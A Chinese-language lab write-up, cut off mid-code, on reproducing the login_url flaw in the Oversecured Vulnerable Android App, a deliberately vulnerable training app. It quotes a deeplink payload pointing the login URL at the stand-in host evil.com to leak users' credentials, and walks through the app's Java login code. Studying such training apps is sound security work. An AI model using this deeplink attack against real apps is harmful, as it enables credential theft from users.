 # 项目部署

[oversecured/ovaa: Oversecured Vulnerable Android App (github.com)](https://github.com/oversecured/ovaa)👈下载源码

导入Android Studio，自动部署（JDK选择了1.8）

# 复现

## 更改login_url

### 分析

> Installation of an arbitrary `login_url` via deeplink `oversecured://ovaa/login?url=http://evil.com/`. Leads to the user's user name and password being leaked when they log in.

首先查看login的逻辑：

1. 监听登录按钮，如果点击进行处理
   1. 如果`email`、`password`为空，则提示
   2. 不为空，则调用`processLogin`
2. processLogin
   1. 将`email`、`password`包装为对象，作为访问Login_url的参数
   2. `loginUtils.getLoginUrl()`取`LOGIN_URL`，在方法中检测是否为空，如果不为空则返回结果
   3. 将取得的URL和参数加入请求队列

```java
public class LoginUtils {
    public String getLoginUrl() {
        String url = preferences.getString(LOGIN_URL_KEY, null);
        if(TextUtils.isEmpty(url)) {
            url = context.getString(R.string.login_url);
            editor.putString(LOGIN_URL_KEY, url).commit();
        }
        return url;
    }
}


public class LoginActivity extends AppCompatActivity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_login);
        loginUtils = LoginUtils.getInstance(this);
        if(loginUtils.isLoggedIn()) {
            onLoginFinished();
            return;
        }
        findViewById(R.id.loginButton).setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View view) {
                String email = ((TextView) findViewById(R.id.emailView)).getText().toString();
                String password = ((TextView) findViewById(R.id.passwordView)).getText().toString();
                if(TextUtils.isEmpty(email)) {
                    Toast.makeText(LoginActivity.this, "Email is emply!", Toast.LENGTH_LONG).show();
                    return;
                }
                if(TextUtils.isEmpty(password)) {
                    Toast.makeText(LoginActivity.this, "Password is emply!", Toast.LENGTH_LONG).show();
```